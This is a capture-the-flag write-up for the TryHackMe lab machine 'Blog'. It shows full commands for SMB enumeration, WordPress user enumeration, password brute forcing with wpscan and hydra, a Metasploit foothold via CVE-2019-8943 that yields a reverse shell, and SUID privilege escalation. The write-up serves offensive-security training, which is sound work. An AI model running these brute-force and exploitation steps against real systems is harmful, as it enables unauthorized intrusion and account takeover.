 ![Screenshot 2023-10-22 152156.png](Blog%2053d7680c1bb844b5a53e028207161e01/ip1yvzT.png)
![Screenshot 2023-10-22 152156.png](Blog%2053d7680c1bb844b5a53e028207161e01/image.png)

# Blog

Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

*In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.*

*Credit to [Sq00ky](https://tryhackme.com/p/Sq00ky) for the root privesc idea ;)*

**Difficulty:** Medium

## Scanning

```jsx
nmap -A -Pn -T4 10.10.250.0 -oN nmap_result.txt
```

![Screenshot 2023-10-22 152156.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_152156.png)

The inital scan shows `22`,`80`,`139`,and `445` open. We can safely assume we’re dealing with WordPress given the room icon. Since SMB is open we’ll start there to see if any shares that are configured for guest read or read write.

## SMB Enumeration

To do SMB Enumeration we can use following tools like `smbmap`, `smbclient`, Metasploit(`use auxiliary/scanner/smb/smb_enumshares`)

This  command-line tool that can be used to enumerate Samba shares on a target machine. You can use the following command to list the shares on a Samba server:

```jsx
smbmap -H 10.10.250.0
```

![Screenshot 2023-10-22 153628.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_153628.png)

## SMB File Download

```jsx
smbget -R smb://$IP/BillySMB/
```

or 

```jsx
smbclient //$IP/BillySMB
get <file_name>
```

![Screenshot 2023-10-22 154543.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_154543.png)

> Tip: If this were an FTP share you could use `wget` to recursively download files. `wget -r --no-passive ftp://(USERNAME):(PASSWORD)@(TARGET)`
> 

## Steganography

Hey, there’s a file name that looks familiar. It’s from [NinjaJc01](https://tryhackme.com/p/NinjaJc01)’s box Wonderland. Could this be a hint to not jump in the rabbit hole?

`steghide extract -sf Alice-White-Rabbit.jpg`

![Screenshot 2023-10-22 154942.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_154942.png)

I looked at the contents and started to get the hint… I’ll leave it to you to check out tswift.mp4 and check-this.png 😄️

## Wordpress

Looks like we’re dealing with a standard barebones WordPress instance. We’ll see what `wpscan` can enumerate for us but first let’s poke around a bit. From the two public posts we see Billy’s mom is a user and hovering over ‘By Karen Wheeler’ we see her username is `kwheel`.

![Screenshot 2023-10-22 155336.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_155336.png)

Scrolling down we can see a post from Billy with a username of `bjoel`. Let’s save the two usernames in a text file called `usernames.txt` that we’ll eventually use to brute force.

![Screenshot 2023-10-22 155644.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_155644.png)

## WordPress Enum.

WPScan including username enumeration

```jsx
wpscan --url http://blog.thm/ -e u
```

![Screenshot 2023-10-22 160017.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_160017.png)

![Screenshot 2023-10-22 160056.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_160056.png)

![Screenshot 2023-10-22 160119.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_160119.png)

From the scan we confirm the two usernames we found earlier. We also now know XML-RPC is enabled so we can leverage that for brute forcing.

Also, we see this is WordPress version 5.0 which has a Path Traversal and Local File Inclusion vulnerability that could lead to an authenticated RCE vulnerability `(CVE 2019-8943)`.

## WordPress Brute Force

```jsx
wpscan --url http://blog.thm -P /usr/share/wordlists/rockyou.txt -U username.txt -t 75
```

or you can use `hydra`

```jsx
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt 10.10.250.0 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```

![Screenshot 2023-10-22 161918.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_161918.png)

## Metasploit

I decided to use a metasploit module for the foothold. 

![Screenshot 2023-10-22 162322.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_162322.png)

![Screenshot 2023-10-22 162501.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_162501.png)

![Screenshot 2023-10-22 163031.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_163031.png)

Finally, we get the reverse shell. Now let’s find the hidden flags.

First Stabilize the shell

```jsx
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

## #user.txt

Looking for user.txt with `find / -type f -name user.txt 2>/dev/null` I can see there’s a file named user.txt in `/home/bjoel/` but after reading the file it’s not the real user flag.

```jsx
find / -type f -name user.txt 2>/dev/null
```

![Screenshot 2023-10-22 163842.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_163842.png)

## root prev.

```jsx
find / -perm -u=s -type f 2>/dev/null
```

or

```jsx
find / -xdev -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

![Screenshot 2023-10-22 164606.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_164606.png)

So it is a root owned binary, with SUID flag on. What happens when we run it?

with the use of the `ltrace` tool, we can view their shared libraries.

> **ltrace** is a diagnostic and debugging tool for the command line that can be used to display calls that are made to shared libraries. It uses the dynamic library hooking mechanism, which allows it to intercept and record the dynamic library calls made by a process and the signals received by that process. [It can also intercept and print the system calls executed by the program](https://www.systutorials.com/docs/linux/man/1-ltrace/)
> 

![Screenshot 2023-10-22 164826.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_164826.png)

So it gets the "admin" environment variable and prints out "Not an Admin". Wait, so if we set this environment variable, what happens?

![Screenshot 2023-10-22 165348.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_165348.png)

Now we can find the user.txt and root.txt flag! 

![Screenshot 2023-10-22 170023.png](Blog%2053d7680c1bb844b5a53e028207161e01/Screenshot_2023-10-22_170023.png)